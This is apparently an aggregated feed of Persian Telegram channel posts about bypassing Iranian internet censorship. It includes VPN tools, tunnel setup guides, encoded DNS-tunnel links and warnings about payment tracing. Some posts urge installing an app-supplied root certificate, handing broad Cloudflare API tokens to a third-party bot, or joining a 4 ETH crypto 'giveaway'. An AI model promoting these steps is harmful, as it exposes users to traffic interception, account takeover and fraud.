آخرین آپدیت‌ها هم شامل همین نصب روی سرور رو داخل ریپو گیتهاب قرار دادم

- Https://github.com/Schmi7zz/EazyFlare

مرحله مینی‌اپ هم قابل رد کردن و اسکیپ هستش که خیلی لازم نباشه با وورکر و ستاپش درگیر بشید

امیدوارم مورد استفاده قرار بگیره

بوس

—————————-

Hello again guys

Given the importance of the security of your Cloudflare account, at the suggestion of Mr. Kia, I have provided the ability to install on your virtual server from my bot so that you no longer need to SSH to an external server

— Inside the bot, select the install on server option and follow the steps

- @EazyFlare_Bot

I have put the latest updates, including the installation on the server, into the GitHub repo

- Https://github.com/Schmi7zz/EazyFlare

The mini-app stage can also be skipped so that you don't have to deal with the worker and its setup

I hope it will be used

## SchmitzWS — post 26

امیدوارم به کارتون بیاد
تا یکم دیگه تا این آپدیت رو میذارم گیتهاب که روی سرور های شخصیتون هم بتونین استفاده کنین

Https://github.com/Schmi7zz/EazyFlare

از مال منم میتونین استفاده کنین

@EazyFlare_bot

## SchmitzWS — post 25

⚙️ آموزش ساخت API Token مناسب
برای استفاده از همه قابلیت‌ها، توکنتون باید دسترسی‌های لازم رو داشته باشه.
مرحله ۱ — وارد داشبورد Cloudflare بشید:
dash.cloudflare.com → My Profile → API Tokens → Create Token
مرحله ۲ — از "Custom token" استفاده کنید:
گزینه "Create Custom Token" رو بزنید.
مرحله ۳ — Permission‌ها رو تنظیم کنید:
📌 بخش Zone:
Zone — Zone → Read
Zone — Zone Settings → Edit
Zone — DNS → Edit
Zone — SSL and Certificates → Edit
Zone — Page Rules → Edit
Zone — Email Routing Rules → Edit
Zone — Workers Routes → Edit
📌 بخش Account:
Account — Workers Scripts → Edit
مرحله ۴ — Zone Resources:
Include → All zones
(یا فقط زون‌های مورد نظر رو انتخاب کنید)
مرحله ۵ — Create Token و کپی کنید.
⚠️ توکن فقط یک بار نمایش داده می‌شه — حتماً ذخیره کنید!
━━━━━━━━━━━━━━━━━━━━
💡 نکات:

اگه قبلاً توکن دارید و فقط DNS Edit داره، باید Edit کنید و Permission‌های بالا رو اضافه کنید.
با Global API Key همه دسترسی‌ها خودکار فعاله ولی توکن اختصاصی امن‌تره.
هر دو روش (Token و API Key) از ربات و مینی‌اپ پشتیبانی می‌شه.

## purnet — post 15250

✅ورژن جدید منتشر شد. توی بخش گوگل اسکریپت یک id داریم یک لینک در بخشهای مربوط قرار بدین و یک رمز ک خودتون مشخص کردین بخش Auth حالت App script Mode فعال و اتصال بزنین. از بخش سرتیفیکیت بخش تنظیمات شما رو میبره تو تنظیمات سکیوریتی خود گوشی نصب سرتیفیکیت و بزنین…

## purnet — post 15249

  

✅با توجه ب اینکه پیامها داذن چک میشن
لینکها رو از داخل مخازن میتونین رمز و برای دوستان خودتون بفرستین.
نیازی به دیکد کردن نیس مستقیم میشه زد داخل برنامه از بخش اضافه کردن سرور

## purnet — post 15248

  

✅ورژن جدید منتشر شد.
توی بخش گوگل اسکریپت
یک id داریم یک لینک
در بخشهای مربوط قرار بدین و یک رمز ک خودتون مشخص کردین بخش Auth
حالت App script Mode
فعال و اتصال بزنین.
از بخش سرتیفیکیت
بخش تنظیمات شما رو میبره تو تنظیمات سکیوریتی خود گوشی
نصب سرتیفیکیت و بزنین
و داخل فولدر دانلود پوشه purvpncert
نصب کنین
مرورگرها تماما راه میفتن.
اگه تیک MHRV خاموش باشه بروشهای دیگه ای سعی میکنه متصل بشه میتونین تست کنین.
در حال حاضر مرورگرها با کانفیگ گفته شده ردیف کار میکنن.

## purnet — post 15247

سلام.
✅بعضی قابلیتها خیلی مهم نیستن.
دانلود برخی دیوایسها از بخش چت چیز خیلی مهمی هم نیس
با این حال تصمیم نهایی و میگیرم تا دسترسی حافظه به پور بدیم یا ندیم.
نظر خودم همین حالت فعلی هست و ندیم اما گویا اندروید ۹ کاربر زیاد داره.
✅پیشفرض mtu در بخش دی ان اس هم روشن میکنیم.
اتومات خیلی بهتره چون محاسبه خودش برای بسته mtu دقیقتره
معنیش این نیس بهترینه ممکنه یکی دستی بهتر نتیجه بگیره.
✅در مورد ترکیب با ایکسری
بخش حلزون
باید تیک زده شد حالت وی پی ان خاموش بشه.
چون اون روش خودش مستقل میاد تونل دی ان اس و روشن میکنه
اینا باگ نیستن بلکه تنظیمات هستن ک باید اتومات بشن.

✅در بخش تغییر سرور بخش سایفون
و ساپورت نشدن برخی جیسونها
طبق بررسیها فقط جیسون های سرورلس ساپورت نمیشن
بجای سرورلس میشه ترکیب با dff رو چک کرد یجورایی شبیه ب هم هستن
اون جیسون هست اینجا سرویس داریم.
الباقی جیسون ها تو بخش ترکیبی ساپورت میشن.
یعنی ساپورت بیشتر شده تو ورژن بعدی.
✅چند نفر گفتن جیسون بدیم لینک بگیریم
شدنیه
یعنی شما جیسون بدین و لینک ولیس یا تروجان و تحویل بگیرین
اون تو ورژن بعد نمیاد اما مشکلی نیس میاریمش
✅همچنین اضافه کردن سرورهای رمز شده با مبدل سرور
مستقیم زد تو برنامه
اینو میارمش ورژن بعدی
یعنی شما برای دوستتون رمز میکنین پیامک میکنین و دوستتون مستقیم کپی و بزنه تو مخازن ب عنوان سرور.
برای اینکه سرعت کار بیشتر بشه.

## purnet — post 15246

  

سلام.
پشتیبانی فعلا تعطیله
ادمینها نمیدونم کاری انجام میدن یا نه
اما دو روز دیگه خودم کار دارم
تا این بخش تموم
بشه.
ب محض اینکه یک اتصال ساده بشه انجام داد منتشر میشه در حال حاضر اتصال با مرورگر امکانپذیره اما کافی نیست.

این پست برای تعداد از شما بود ک گله دارن پشتیبانی ضعیفه
این اگه درست بشه
چون هسته ،سایفون و هیستریا و غیره رو داره
بصورت درختی کلی اپشن با خودش میاره
برم بخابم
مراقب خودتون باشین
به امید ازادی😘❤️🌹✅

## purnet — post 15245

روز همگی بخیر. این پیام صرفا بخاطر نگرانی بعضی از دوستان بود❤️🙏

## purnet — post 15244

بدلیل ریدنهای پیاپی و متواتر و مسلسلوار پارس پک موقتا بخش چت بسته شد.
بمحض ردیف شدن باز میشه در حال حاضر بصورت ثانیه ای از دسترس خارج میشه برمیگرده ک چیزی جز اعصابخوردی نداره.
میگن دارن بروزرسانی میکنن🙏

## purnet — post 15243

اگه کسی روی سایت پارسپک
هاست داره
چک کنه ببینه به سی پنل میتونه لاگین کنه؟
از جمعه دسترسی به هاست بسته شده و میگن مشکل داره و این مشکل برای بقیه هم هست.
میخام مطمین بشم
در حال حاضر هاست فعاله و فقط ورود ب سی پنل مشکل داره.
در صورتی که کسی ب سی پنل در سایت پارسپک لاگین شد توی جعبه ابزار به purvpn تو تب چت خصوصی اعلام کنه.

## purnet — post 15242

  

روی حالت اتوماتیک بهتره باشه.
این بخش کلا اتوماتیک بود اما چند نفری گفتن دستی باشه
ورژن بعدی پیشفرض روی اتوماتیک خواهد بود.
کسانی که توی چت
بخش جعبه ابزار میگن متصل نمیشه این بخش و بزارن روی اتوماتیک و مجدد تست کنن

## purnet — post 15241

dns://cHVyLjJxdS5teSZmODQzZTI0YTRlMTEwNzEyN2VhYWZmNmI4NGJlYzA3NzBkOTYyMWE3NGVkYjIwNTYyMzhiZGMyZmM1NjdjNTA1JjY2NjYmMTk0LjUuMTk1LjIwMDo1MyZ1ZHA=
dns://cHVyLjJxdS5teSZmODQzZTI0YTRlMTEwNzEyN2VhYWZmNmI4NGJlYzA3NzBkOTYyMWE3NGVkYjIwNTYyMzhiZGMyZmM1NjdjNTA1JjY2NjYmOTQuMTg0LjEwLjEzNTo1MyZ1ZHA=
dns://cHVyLjJxdS5teSZmODQzZTI0YTRlMTEwNzEyN2VhYWZmNmI4NGJlYzA3NzBkOTYyMWE3NGVkYjIwNTYyMzhiZGMyZmM1NjdjNTA1JjY2NjYmMTg1LjguMTcyLjIyOTo1MyZ1ZHA=
dns://cHVyLjJxdS5teSZmODQzZTI0YTRlMTEwNzEyN2VhYWZmNmI4NGJlYzA3NzBkOTYyMWE3NGVkYjIwNTYyMzhiZGMyZmM1NjdjNTA1JjY2NjYmMTg1LjExMi4zOS4xNjA6NTMmdWRw
dns://cHVyLjJxdS5teSZmODQzZTI0YTRlMTEwNzEyN2VhYWZmNmI4NGJlYzA3NzBkOTYyMWE3NGVkYjIwNTYyMzhiZGMyZmM1NjdjNTA1JjY2NjYmNzcuMjM4LjEwOS43MDo1MyZ1ZHA=

## purnet — post 15240

اندرویدهای ۹ و ۱۰
از بخش جعبه ابزار نمیتونن دانلود کنن.

تو ورژن بعدی
دسترسی اون دو ورژن درست میشه
اما اگه برین تو بخش جزییات برنامه
دسترسی فایل هم اونجا در کنار دسترسی نوتیفیکیشن اضافه میشه.
ممکنه بعضیا نگران بشن ک دسترسی فایل برا چیه
در اندرویدهای جدید دسترسی دینامیک میشه داد
یعنی تو همون بخش دسترسی میگیره اما تو اندروید ۹ و ۱۰ یکم فرق داره

## purnet — post 15239

سگی و امانت به من بدشانس سپردن از خاب پاشدم امانتی تو حیاط بود دیدم رفته از زیر در داره ب بیرون نگا و سرصدا میکنه درو باز کردم ببینم چخبره یک سگ پرید تو خونه اندازه اسب فک کنم دوبرمن بود چسبید ب امانت امانت و زدم زیر بغل دفرار دوبرمنه هم دنبال ما دوتا اوردم…

## purnet — post 15238

Sni spoof
بدون روت اومد روی پور.
روی paqet هم میخام کار کنم
اگه بشه اونم بدون روت بیاد

## purnet — post 15237

  

📷 Photo

## purnet — post 15236

جعبه ابزار احتمال ۹۸ درصد برگرده
احتمال یک درصد دیلت اما باز بشه
که بک اپ باید برگردونیم
بخش ارسال فایل تو خصوصی بکاپ نداره البته
احتمال ۱ درصد هم بلاک میشه
و باید برد روی هاست و دامنه جدید

## purnet — post 15235

  

تموم شد این بخش.
به همراه بخش ترجمه جیسونهای خاص
منتشر میشه
بدون نیاز به روت👌

## purnet — post 15234

سلام.سرویس cpanel دچار اختلال شده تا ساعاتی ممکنه هاست در دسترس نباشه
البته اینجوری گفتن🙆‍♂️.
باید صبر کرد.
جعبه ابزار فعلا پریده

## purnet — post 15233

سلام و شب بخیر.
کانفیگهای مربوط ب اکثر کلاینتهای وی پی ان
توسط مشارکت شما تو بخش چت به بخش ارسال فایل در چت خصوصی اضافه شد.
همچنین در صورتی ک فایل مهمی دارین به اکانتهای
sam
Purvpn
Purnet
ارسال از بخش خصوصی تا پین کنن.

## purnet — post 15232

در مورد نسخه ویندوزی ضمن تشکر از توسعه دهنده چنتا ایراد داره اما متصل میشه خیلی هم قوی.

کارهایی ک کردم روی پروکسی ویندوز
یوتیوب باز نکرد
اما با افزونه فایرفاکس تحت نام smartproxy
که ایکون کره زمین داره
این پروکسی رو ست کردم
127.0.0.1:10809
روی حالت ساکس و تیک دی ان اس داخلی افزونه رو زدم.
اقا برگام ریخت
یوتیوب و جوری باز میکنه کیف کردم با کانفیگهایی ک قرار دادن حدود ۵ تاس من اولیو زدم.
ایرادات داره طبیعیه ورژن اوله دی ان اس هست
بهش میگم بمرور ردیف میشه
عجیبترینش اینه تونل و میبندی فایرفاکسو میبنده اما انگار با تونل یکی شده.قفل میشه روی فایرفاکس انگار با اون افزونه

دومین ایراد هم تست پینگ کار نمیکنه اما کار اصلی ساخت تونل ردیف بود
ویندوزیها چک کنن حتما

## purnet — post 15231

از گوشی نمیتونم بن کنم بعدا میرم پا سیستم خودم ترتیبشو میدم
از طرف @purvpn

## archivetell — post 4788

ArchiveTel pinned a photo

## archivetell — post 4787

  

🔥 استارلینک پرسرعت 🚀
🎁 تخفیف ویژه با کد ArchiveTel
💰 هر گیگ: ۲۵۰ ➡️ ۶۵۰ تومان

💳 پرداخت راحت ریالی + کریپتو + پی‌پال
⚡ سرعت بالا، بدون قطعی
❗️ایپی ثابت آلمان 🇩🇪
📩 خرید سریع:
https://t.me/Alizadeh_VPN

## archivetell — post 4785

ربات تبدیل ویس به متن

@VoiceToTextMasterBot

@ArchiveTell

## archivetell — post 4784

🚨 امروز می‌خوایم درباره موضوعی حرف بزنیم که احتمالا از این به بعد بیشتر اسمش رو می‌شنوید؛ مخصوصا برای کسایی که خرید کارت به کارت کانفیگ از شخص یا ربات انجام میدن❗️

یه سری گزارش بهمون دادن
از طرف No Caller ID براشون زنگ زدن و سوال‌هایی مثل:

● شما به شخص "برفرض قلی زاده" واریز کردید میشناسیدش؟

بدبینانه ترین حالتش اینکه:

● ما از تماس**** میگیریم شما از کجا کانفیگ خرید کردید؟ بیاید اداره تعهد بدید و بیاید اینجا توضیح بدید دارید چه کاری با vpn انجام میدید.

اول باید یه نکته مهم رو بدونید:

خیلی از فروشنده‌های کانفیگ، پرداخت رو به‌صورت کارت‌به‌کارت انجام میدن که بتونن مشتری بکشن این کارت‌ها معمولا دو حالت دارن:

۱️⃣ یه سری فروشنده‌ها مدت طولانی از یک کارت ثابت استفاده می‌کنن و ظاهرا مشکلی هم براشون پیش نمیاد (پارتی دارن)

۲️⃣ یه سری دیگه مدام کارت عوض می‌کننبثورت روزانه و هفتگی ؛ بحث اصلی ما با این دسته‌ست.

مشکل از جایی شروع میشه که ۱۰۰٪ از این کارت‌ها اجاره‌ای هستن.
معمولا بعد از مدتی حساب مسدود میشه و صاحب کارت باید بابت تراکنش‌ها توضیح بده و درگیر دردسرهای پولشویی و قضایی بشه.

از اون طرف، تمام تراکنش‌ها داخل سیستم بانکی ثبت میشن:
شماره حساب، اسم و شماره طرفین، مبلغ، زمان تراکنش و...

حالا اگر مشخص بشه اون حساب برای فروش VPN یا کانفیگ استفاده میشده، طبیعیه که تراکنش‌ها و افراد مرتبط بیشتر بررسی بشن.
که ۱ ماه پیش خبر این تو کانالها پخش شده بود از پیش شماره Vaja برای کانفیگ فروش هایی که مستقیما از کارت خودشون استفاده می‌کردن پیام رفته براشون

🤔 حالا میپرسید راه‌حل چیه؟

تا جای ممکن کارت به کارت نکنید.

بهتره به جای این مدل پرداخت‌ها از روش‌هایی استفاده بشه که مستقیم به کارت‌به‌کارت نباشن؛
مثلا پرداخت از طریق تراست ولت یا صرافی‌های ارز دیجیتال مثل نوبیتکس یا بیت‌پین و خیلی صرافی های دیگه که ثبت‌نام تو این صرافی ها هیچ سختی نداره و عرض ۵ دقیقه ثبت‌نام میشه کرد

در نتیجه پیشنهاد میشه تا حد امکان از کارت‌به‌کارت به حساب‌های متفرقه خودداری کنید
میگید به خودتون چرا مشکلی نداره که؟ اینم فکرشو بکنید که بابت کانفیگ ۲۵۰ تومنی برید خودتون رو به دردسر انداختید و حالا باید جواب هم پس بدید🥴

این موضوع احتمالا در هفته‌ها و ماه‌های آینده بیشتر درباره‌ش خواهید شنید که از No Caller ID تماس گرفته شده. خیلی‌ها الان جدی نمی‌گیرنش، ولی بعدا درگیر این موضوعات میشن که دیگه خیلی دیر شده

ℹ️ هدف ما ترساندن نیست و صرفا جهت آگاهی و امنیت شما اطلاع رسانی شده ❤️‍🔥

@ArchiveTell

## archivetell — post 4782

🚀 قابلیت جدید Codex

با یک کلیک انتقال پروژه‌ها/گفتگوها بین Claude و Codex
- استفاده از قدرتمندترین مدل برای کدنویسی هوش مصنوعی
- صرفه‌جویی در زمان و بهبود کار تیمی

https://chatgpt.com/codex/switch-to-codex/

@ArchiveTell

## archivetell — post 4781

  <a href="https://t.me/archivetell/4781" target="_blank">📎 Download file</a>

Balancer.html

## archivetell — post 4780

🎉 ۸ ابزار هوش مصنوعی فقط برای سرگرمی

1️⃣ هنرمند تتو – طراحی خودکار تتوهای خلاق
🔗 https://tattoosai.com

2️⃣ صحبت با کتاب‌ها – گفتگو با متن‌های کتابی به‌صورت صوتی
🔗 https://books.google.com/talktobooks/

3️⃣ عکس‌های قدیمی – بازسازی و رنگ‌آمیزی تصاویر تاریخی
🔗 https://myheritage.com/ai-time-machine

4️⃣ سلام به گذشته – تعامل با شخصیت‌ها و رویدادهای تاریخی
🔗 https://hellohistory.ai

5️⃣ جعل خود – ساخت صداهای مصنوعی شبیه به خودتان
🔗 https://fakeyou.com

6️⃣ وعده غذایی غیرواقعی – منوهای خیالی و جذاب برای لذت بصری
🔗 https://unrealmeal.ai

7️⃣ تغییر چهره با هوش مصنوعی – سوئیچ و ترکیب چهره‌ها به‌صورت لحظه‌ای
🔗 https://hey.reface.ai

8️⃣ تغییر صدا – تبدیل صدا به انواع شخصیت‌ها و افکت‌ها
🔗 https://voicemod.net

@ArchiveTell

## archivetell — post 4779

  <a href="https://t.me/archivetell/4779" target="_blank">📎 Download file</a>

🚀 ابزار اختصاصی ساخت کانفیگ بالانسر برای v2rayNG 🚀

> خسته شدی از بس دستی بین کانفیگ‌ها سوییچ کردی تا یه سبزشو پیدا کنی؟

با این ابزار ساده، تمام کانفیگ‌هاتون (حتی لینک‌های نامرتب با پروتکل‌های جدید مثل xhttp) رو یکجا وارد می‌کنید و در ازاش یک «کانفیگ کاستوم هوشمند» تحویل می‌گیرید.

> ⚡️ چیکار می‌کنه؟ > این کانفیگ به صورت خودکار پینگ تمام سرورهای شما رو (مثلاً هر ۶۰ ثانیه) چک می‌کنه و ترافیک شما رو بدون قطعی روی سریع‌ترین سرور میندازه (LeastPing).

> 🔒 ۱۰۰٪ امن و آفلاین (توی مرورگر خودتون اجرا میشه)

> 📥 کافیه فایل HTML رو باز کنید، کانفیگ‌ها رو بدید و خروجی JSON رو توی v2rayNG کپی کنید. فق دستی کپی کنین

‌🆔 @archivetell

## archivetell — post 4778

دوستان برنامه نویس خیّر اندروید کسی هست؟
کار اونقدی سخت نیست
دایرکت یا پی وی پیامم بده
کار عام المنفعه هست برای اتصال به اینترنت

## archivetell — post 4777

  

🔆 سایت و برنامه کانفیگ ساز آپدیت شدند

📌 فایل برنامه
📌 لینک سایت

🌐 اضافه شدن سرور های جدید ( اهدایی عزیزان❤️ )

🔺بهینه شدن لیست BEST

⚡️ اضافه شدن sni های جدید

● کانفیگ ساز جدید فقط روی نسخه 1.0.3 پروژه کار میکنه

🔵 @IR_NETLIFY

## archivetell — post 4776

ربات فشرده‌سازی فایل‌های PDF 📖📚

@PDF_Compress_Robot

@ArchiveTell

## archivetell — post 4774

  

🔥 MattDownloader
نسخه اول منتشر شد ❤️

می‌خوای ویدیو از یوتیوب (یا هر لینک دانلودی دیگه رو) بدون VPN بگیری؟ با MattDownloader این امکان میسر میشه:
GitHub Actions روی فورک خودت فایل را از اینترنت دانلود میکنه و آماده‌اش میکنه؛ تو فقط با اپ از همون گیت‌هاب بدون اینکه روی گوشی VPN لازم داشته باشی، فایل نهایی رو می‌گیری و ذخیره می‌کنی. یعنی گوشی بیشتر با گیت‌هاب حرف میزنه، نه مستقیم با سایتی که برات مسدود یا ناپایدار است.

چطور کار میکنه؟ لینک را به اپ می‌دهی (مثلاً لینک ویدیوی یوتیوب که به لینک مستقیم تبدیلش کردی)، ورک‌فلو روی ریپوی تو اجرا میشه، بعد اپ فایل آماده را از مسیر jobs میخونه و روی دستگاه دانلود میکنه.

🎬 مناسب برای ویدیوهای یوتیوب و لینک‌های سنگین
⚡ ست‌آپ یک‌بار با توکن و آدرس فورک
📥 دانلود نهایی از گیت‌هاب
🖼️ امکان ذخیره در گالری برای ویدیو/عکس

راهنما و APK اینجاست:
https://github.com/matthewnet/MattDownloader

آخرین نسخه برای نصب:
https://github.com/matthewnet/MattDownloader/releases/latest

تجربه‌تون را بفرستید 💙

برای دریافت نسخه‌های بعدی:
@mattspoof

## archivetell — post 4773

🚀 دانلودر حرفه‌ای و پرسرعت یوتیوب مستقیم به گوگل درایو! (بدون مصرف حجم اینترنت) خسته شدید از سایت‌های پر از تبلیغ، قطعی‌های مکرر و محدودیت سرعت برای دانلود از یوتیوب؟ ما یک اسکریپت اختصاصی و هوشمند برای محیط Google Colab آماده کردیم که به شما اجازه میده ویدیوها،…

## archivetell — post 4772

  

حکومت درحال احراز کردن IP سرور های ایران هستش. اینطوری صاحب هر IP برای حکومت کاملا مشخص میشه.

قبل از این، دیتاسنتر ها احراز رو خودشون انجام میدادن اما برای اکانتی که میسازید نه IP سرور. اگه حکومت هر دستوری بابت پیگیری IP خاصی میداد، باید از فیلتر ISP عبور میکرد که میشد با روش هایی دورش زد یا گردن نگرفتش

اما الان خود حکومت دیگه میدونه کدوم IP برای چه شخصی هستش...

@ArchiveTell

Source

## archivetell — post 4771

ربات تبدیل صدا به متن رایگان

@sedatextbot

@ArchiveTell

## archivetell — post 4770

🚀 آموزش صفر تا صد راه‌اندازی تونل ریورس (Reverse Tunnel) در 3x-ui

---

رفقا سلام! ✋ امروز یه آموزش پایه‌ای اما به‌شدت کاربردی داریم برای راه‌اندازی تونل Reverse بین دو پنل 3x-ui (سرور ایران و خارج).
ممکنه بسته به شرایط سرورتون نیاز به یه سری تغییرات ریز داشته باشید، اما ساختار اصلی و تضمینی همینه!

مرحله ۱: ساخت Inbound روی سرور ایران 🇮🇷
1️⃣ وارد پنل 3x-ui سرور ایران بشید و به بخش Inbounds برید.
2️⃣ دو تا کانفیگ باید بسازید:

🔸 کانفیگ اول (برای Tunnel):
• Protocol: VLESS (یا پروتکل دلخواه)
• Transport: WebSocket
• Path: /tunnel
• Remark: tunnel
• Port: حتماً یکی از پورت‌های پشتیبانی‌شده توسط CDN (مثلاً 8080 یا 2082)

🔸 کانفیگ دوم (برای User):
• Protocol: VLESS
• Transport: WebSocket
• Path: /user
• Remark: user
• Port: یکی از پورت‌های CDN (مثلاً 8080)

⚠️ نکته به‌شدت مهم: حتماً از پورت‌هایی استفاده کنید که CDN (مثل ابرآروان یا کلودفلر) اجازه می‌ده؛ مثل: 80, 443, 8080, 2052, 2082, 2086, 2095.

مرحله ۲: تنظیم Reverse روی سرور ایران 🇮🇷
1️⃣ برید به بخش Xray Config و بعد تب Reverse.
2️⃣ یه Reverse جدید بسازید (بخش Portal):
• Tag: portal
• Domain: یه اسم دلخواه (دقت کنید که روی سرور خارج هم باید دقیقاً همین باشه).
3️⃣ حالا Mapping رو انجام بدید: کانفیگ tunnel رو وصل کنید به user (یعنی Tunnel ➔ User) و ذخیره کنید.

مرحله ۳: انتقال کانفیگ به سرور خارج 🌍
1️⃣ از کانفیگ tunnel (که تو ایران ساختید) خروجی (Export) بگیرید.
2️⃣ وارد پنل سرور خارج بشید و برید به بخش Outbounds.
3️⃣ یه Outbound جدید بسازید و لینک ایران رو اونجا Paste کنید.
(دقت کنید که دامنه‌تون باید پشت CDN باشه و به آی‌پی سرور ایران اشاره کنه).

مرحله ۴: تنظیم Reverse روی سرور خارج 🌍
1️⃣ تو پنل خارج برید به بخش Reverse.
2️⃣ یه Bridge بسازید:
• Tag: bridge
• Domain: دقیقاً همون دامین/اسمی که تو سرور ایران گذاشتید.
• Interconnection: همون Outboundی که تو مرحله قبل ساختید.
• Internet: روی direct یا freedom تنظیم کنید.
3️⃣ سیو کنید و تمام!

✅ نتیجه چی می‌شه؟
سرور خارج به ایران متصل می‌شه ➔ تونل ریورس برقرار می‌شه ➔ کاربر به سرور ایران وصل می‌شه و اینترنت آزاد رو از سرور خارج دریافت می‌کنه!

💡 نکات طلایی و عیب‌یابی:
🔹 مسیرها (Path): پث‌ها (مثل tunnel/ و user/) باید مو به مو یکی باشن. یه اسلش (/) اضافه یا کم، کل کار رو خراب می‌کنه.
🔹 نقش CDN: بدون CDN این روش یا کار نمی‌کنه یا شدیداً ناپایداره. حتماً پشت CDN باشید و تیک WebSocket رو هم تو تنظیمات CDN روشن کنید.
🔹 نیاز به TLS یا Nginx: استفاده از Nginx الزامی نیست ولی برای تمیزیِ کار، روت کردن پث‌ها و استفاده از پورت 443 خیلی جوابه. TLS هم بستگی به شبکه داره، بعضی جاها فقط با 443 جواب می‌ده.
🔹 مشکل وصل شدن بدون اینترنت: اگه وصل شدید، چند کیلوبایت سند و ریسیو داشتید ولی اینترنت نبود، شک نکنید مشکل از ایناست: اشتباه بودن Path، مشکل تو هدرهای Upgrade/Connection، مپ نشدن درست Reverse یا گیر دادنِ CDN.

📌 #آموزش #تونل #ریورس #Reverse_Tunnel #سنایی #3x_ui #vless

🔵 @ArchiveTell |

## archivetell — post 4769

سایت ارسال کانفیگ

http://m.ulni.ir

https://sphost.theazizi.ir/

@ArchiveTell

## archivetell — post 4768

آپلودر های فعال

https://up.zaringo.sbs/

https://rozup.ir/

https://uploadgirl.ir/

https://seup.shop/

http://uplod.ir

https://up.20script.ir

https://punkpaste.ir

https://my.files.ir

https://toolschi.com/tools/upload-center

http://nixfile.com

@ArchiveTell

## archivetell — post 4767

ربات کاهش حجم ویدئو رایگان

@mediaEasyBot

@ArchiveTell

## archivetell — post 4765

کاش زودتر آیفون ۱۸ بیاد که آیفون ۱۷ ارزون‌ تر بشه بتونیم تن ماهی بخریم.

@archivetell

## hamvex — post 2544

🔐
👩‍💻 V2RayNG 2.1.7
https://uplod.ir/grf5sue1h69d/v2rayNG-2.1.7-universal.zip.htm (داخلی)
Pass : @hamvex

📱
❤️ V2RayN 7.21.3
https://uplod.ir/4sgvxirece59/v2rayN-windows-64.zip.htm (داخلی)
Pass : @hamvex

## hamvex — post 2543

والا اگه راه «درست» یعنی پول خرج کردن، خب هر راهی درسته دیگه 😄

## hamvex — post 2542

طرف اولین ویدئوی چنلش رو رکورد کرده، همون اول هم میگه:
«سمت چنل‌های یوتیوبی زرد که متودهای MHR و MHR-CFW و... (متودهای رایگان) رو آموزش میدن نرید؛ با من بیاید که مسیر درست رو میرم. فقط کافیه یه سرور خارج، یه سرور ایران و فلان و بهمان داشته باشید.»

دوست عزیز، خیلی‌ها با همین متودهایی که از همون چنل‌های به‌قول تو زرد یاد گرفتن، رایگان وصل شدن و کارشون رو راه انداختن.

از همین اول مسیرت ، مشخص شد آخرش قراره به کجا برسه

موفق باشی

## hamvex — post 2541

❤️ تلگرام دستیار هوش مصنوعی خودش رو با نام «Mira» معرفی کرده:

https://t.me/mira?start=_tgr_5zemGwwzZDA0

🔺 تو شرایطی که اینترنت برای خیلی‌ها محدود شده و اکثر کاربران ایرانی فقط به تلگرام دسترسی دارن، وجود چنین ابزاری واقعا کاربردیه و می‌تونه کمک بزرگی باشه.

🔺 می‌تونید Mira رو به گروه‌ یا کانال‌تون اضافه کنید، ازش سوال بپرسید، باهاش چت کنید یا حتی بخشی از مدیریت کانال‌تون رو بهش بسپارید.

🔺 امکانات نسخه رایگانش هم واقعا قابل توجهه، از جمله:
• پشتیبانی کامل از زبان فارسی
• چت بدون محدودیت
• تبدیل ویس به متن و متن به صدا
• جستجو در وب و پیدا کردن اطلاعات
• تحلیل عکس و لینک و توضیح محتوای اون‌ها

و کلی قابلیت دیگه که رایگان در اختیارتونه.

🔺 در نسخه پولی هم امکانات پیشرفته‌تری مثل:
• ساخت و ادیت عکس
• تولید موسیقی و ویدیو
• کدینگ ، کانکت به گیتهاب و...
• اتصال به جیمیل ، گوگل درایو ، گوگل داک و...
در دسترسه.

## hamvex — post 2540

⌛ آموزش کامل دور زدن فیلترینگ با متود MHR دسترسی به یوتیوب ، تلگرام ، اینستاگرام و سایت‌های فیلتر (نسخه پایتون) 
🎬 https://youtu.be/TaRGp2-hvVY?si=s3IMxaT8Mgv-s9wh 
🐱 https://github.com/masterking32/MasterHttpRelayVPN/tree/python_testing 
⬇️
🔄 https://upl…

## hamvex — post 2539

⌛ آموزش کامل دور زدن فیلترینگ با متود MHR-CFW 
❤️
🎬
🌐دسترسی به یوتیوب ، تلگرام ، اینستاگرام و سایت‌های فیلتر (نسخه ویندوز و پایتون ) 
🎬 https://youtu.be/FdRmN5BXa2o?si=kqroWDqrrSo_j-Cr 
🐱 https://github.com/denuitt1/mhr-cfw 
⬇️
🔄 https://uplod.ir/7t96h1fj6812/MHR…

## hamvex — post 2538

🔖دوستانی که کانفیگ ندارین واسه ثبت‌نام کلودفلر دایرکت پیام بزارین به هر دو نفرتون یه کانفیگ ۱۰۰ مگی میدم کافیه واسه ثبت نام تاکید میکنم فقط ثبت نام کلودفلر و ساختن ورکر رله هاتون رو با کانفیگای مخصوص گوگل بسازید یا از حالت Direct نرم‌افزار mhrv-rs استفاده…

## hamvex — post 2532

🔖دوستانی که کانفیگ ندارین واسه ثبت‌نام کلودفلر دایرکت پیام بزارین
به هر دو نفرتون یه کانفیگ ۱۰۰ مگی میدم
کافیه واسه ثبت نام
تاکید میکنم فقط ثبت نام کلودفلر و ساختن ورکر
رله هاتون رو با کانفیگای مخصوص گوگل بسازید یا از حالت Direct نرم‌افزار mhrv-rs استفاده کنید

حدودا ۶۰ نفری رو میتونم ساپورت کنم

## hamvex — post 2527

  

🎁 Join the giveaway together with me and share 
🪙 4 ETH ($9,170.36).

## hamvex — post 2523

  

⌛ آموزش کامل دور زدن فیلترینگ با متود ZYRLN 
❤️
🎬
🌐دسترسی به یوتیوب ، تلگرام ، اینستاگرام و سایت‌های فیلتر (نسخه اندروید ) 
🎬 https://youtu.be/JOaJY23ibGw?is=PfOxauTpvxlSULYd 
🐱 https://github.com/ajavadinezhad/zyrln 
⬇️
🔄 https://uplod.ir/k4vgur6wjbuf/ZYRLN.mp4.htm…

## hamvex — post 2519

🟢تست متود ZYRLN 
🔺کانفیگی که دیشب ساخته بودم کار نمیداد یه جدید ساختم اوکی شد (با اکانت کلادفلر و گوگل جدید) 
🔺اگر همه مراحل رو طبق ویدئوی آموزشی رفتید و باز ارور میگیرید یا مثل خودم اولش کار میداد ولی از کار افتاد حالتهای زیر رو امتحان کنید.(توصیه میکنم…

## hamvex — post 2518

  <a href="telegram/content/hamvex_2518_1778607737.mp4" target="_blank">🎬 Download video</a>

⌛ آموزش کامل دور زدن فیلترینگ با متود ZYRLN 
❤️
🎬
🌐دسترسی به یوتیوب ، تلگرام ، اینستاگرام و سایت‌های فیلتر (نسخه اندروید ) 
🎬 https://youtu.be/JOaJY23ibGw?is=PfOxauTpvxlSULYd 
🐱 https://github.com/ajavadinezhad/zyrln 
⬇️
